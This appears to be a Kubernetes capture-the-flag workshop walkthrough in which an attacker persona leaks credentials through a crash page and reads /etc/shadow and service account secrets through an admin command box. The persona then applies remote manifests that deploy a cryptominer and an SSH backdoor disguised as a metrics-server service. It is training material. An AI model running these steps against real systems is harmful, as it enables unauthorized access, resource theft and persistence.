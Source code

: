 # Free Compute: Scenario 1 Attack

## Warning

In these Attack scenarios, we're going to be doing a lot of things that can be crimes if done without permission. Today, you have permission to perform these kinds of attacks against your assigned training environment.

In the real world, use good judgment. Don't hurt people, don't get yourself in trouble. Only perform security assessments against your own systems, or with written permission from the owners.

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ has been mining `bitcoinero` (a fake cryptocurrency) for a few months now, and it's starting to gain some value
* __Red__ is looking for free-to-them compute on which to run miners
* __Red__ purchased some leaked credentials from the dark web

## Thinking In Graphs

Attacking a system is a problem-solving process similar to troubleshooting: __Red__ begins with a goal (deploy an unauthorized cryptominer) but doesn't really know what resources are available to achieve that goal. They will have to start with what little they already know, perform tests to learn more, and develop a plan. The plan is ever-evolving as new information is gleaned.

The general process looks like this:

![attack lifecycle](img/attack-lifecycle.png)

* __Study__

    In this phase, use enumeration tools to start from the information you have, and get more information. Which tools to use will depend on the situation. For example, `nmap` is commonly used to enumerate IP networks. `nikto`, `burp`, and `sqlmap` are interesting ways to learn more about web applications. Windows and Linux administrative utilities such as `uname`, `winver`, and `netstat` provide a wealth of information about their host OSes.

* __Plan__

    In this phase, think about everything you currently know, and what actions you can take based on that knowledge. If you think you can do something that will help you get closer to your goal, move onto *Attack Something*. Otherwise, go back to Study and try to learn more.

* __Attack Something__

    In this phase, you take some action in the hope of getting closer to your goal. This may be running an exploit tool against a buggy piece of software, launching some kind of credential-guessing utility, or even just running a system command like kubectl apply. Your success or failure will teach you more about your target and situation. Move on to *Study*, *Persist*, or *Win*, as appropriate.

* __Persist__

    In this optional phase, you take some action to make it easier to re-enter the system or network at a later time. Common options are running a malware Remote Access Tool such as Meterpreter, creating new accounts for later use, and stealing passwords.

* __Win__

    Eventually, you may achieve your goals. Congratulations! Now you can stop hacking and begin dreaming about your next goal.

## Getting Access

__Red__ team found an app online and ran a [dictionary attack](https://www.techtarget.com/searchsecurity/definition/dictionary-attack) against it.  Some valid paths were `/crash` and `/admin`.  Let's try to find an exploit!

To find the compromised website, run the following:
```
./scenario_1/attack-1-helper.sh
```
This is a message from the team that provided the leaked credentials.  Inside, you see 3 links.  

In your browser, go to the first URL provided (e.g. `http://<HACKED_IP>:8080/`)

Hmm.  "Nothing to see here."?  They're probably wrong.

Let's try the Admin page: `http://<HACKED_IP>:8080/admin`.  Hmm.  It's asking for credentials.  Since it was a browser popup (instead of an in-app request), it probably uses [Basic Auth](https://en.wikipedia.org/wiki/Basic_access_authentication).

Let's try the Crash page: `http://<HACKED_IP>:8080/crash`

Looks like we've crashed the app!  And it prints out all of the environment variables.  Oh goodie!  There are two values that seem to be especially interesting (AUTH_USERNAME and AUTH_PASSWORD).  Let's go back to the Admin page and try those.

Go back to the Admin page: `http://<HACKED_IP>:8080/admin` and enter the credentials from the crash page.  

And we're in!  Looks like Frank left a backdoor to run some commands.  Let's see what we can learn.

Click into the "Run a command" textbox and then try each of the commands below:

```console
id
```

```console
uname -a
```

```console
cat /etc/os-release
```

```console
ps -ef
```
Note that there are very few processes running. This is probably a container.

```console
df -h
```

```console
cat /etc/shadow
```
```console
ls -l /
```
```console
ls -l $PWD
```
```console
echo $PATH
```

Can we add files to the default PATH?
```console
touch /usr/local/bin/foo && ls /usr/local/bin/
```
It looks like we can.

Now let's inspect our environment:
```console
env
```

This tells us two things:

* We are in a container
* It's managed by Kubernetes

Let's poke around some more and see if we can find any credentials.
```console
ls /var/run/secrets/kubernetes.io/serviceaccount
```

# Deploy Bitcoin miner + backdoor

We have typical Kubernetes-related environment variables defined, and we have anonymous access to some parts of the Kubernetes API. We can see that the Kubernetes version is modern and supported -- but there's still hope if the Kubernetes security configuration is sloppy. Let's check for that next:

!!! note "Note"
    This may take a minute or two. Watch the page progress in the browser tab.

```console
cd /usr/local/bin; curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod 555 kubectl; kubectl version
```
```console
kubectl get all
```
What workloads are deployed in all of the namespaces?
```console
kubectl get all -A
```
What operations can I run on this cluster?
```console
kubectl auth can-i --list
```
Can I create pods?
```console
kubectl auth can-i create pods
```

It looks like we have hit the jackpot! Let's see if we can start mining some crypto.
```console
kubectl apply -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/bitcoinero.yaml; sleep 10; kubectl get pods -n dev
```

We can see the bitcoinero pod running, starting to generate a small but steady stream of cryptocurrency. But we need to take a few more steps to protect our access to this lucrative opportunity. Let's deploy an SSH server on the cluster to give us a backdoor in case we lose our current access later.

```console
kubectl apply -n kube-system -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/backdoor.yaml
```

Wait ~10 seconds for the Public IP to be exposed
```console
kubectl get svc metrics-server-service -n kube-system -o table -o jsonpath='{.status.loadBalancer.ingress[0].ip}'
```

Our Bitcoin miner is now deployed and we've also deployed an SSH backdoor.  Mission Accomplished.
